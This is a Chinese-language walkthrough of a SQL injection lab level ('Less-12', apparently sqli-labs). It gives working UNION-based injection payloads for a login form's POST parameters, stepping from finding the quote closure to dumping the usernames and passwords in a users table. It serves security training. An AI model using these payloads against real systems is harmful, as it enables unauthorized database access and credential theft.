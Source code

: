 ```yaml
---
title: Less - 12
date: 2023-03-14T13:23:39Z
lastmod: 2023-03-14T14:10:44Z
---
```


# Less - 12

---

# 通关教程

---

## 1、判断闭合

---

```html
uname=admin'&passwd=admin&submit=Submit #页面不报错
uname=admin"&passwd=admin&submit=Submit #页面有错误显示
```

​![image](assets/image-20230314133337-1jemkaw.png)​

​![image](assets/image-20230314133355-1evj6iq.png)​

根据输入"时的报错信息我们确定闭合方式为")，也确定为字符型注入

---

## 2、查看当前数据库

---

```html
uname=a") union select 1,database()#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314133539-l55l23q.png)​

---

## 3、查看security库下的所有表

---

```html
uname=a") union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security')#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314133714-tsto4p0.png)​

---

## 4、查看users表下的所有字段

---

```html
uname=a") union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users')#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314140854-2zjkpg9.png)​

---

## 5、查看username和password字段的值

---

```html
uname=a") union select 1,(select group_concat(username,password) from security.users)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314141034-n5f3o7r.png)​

‍
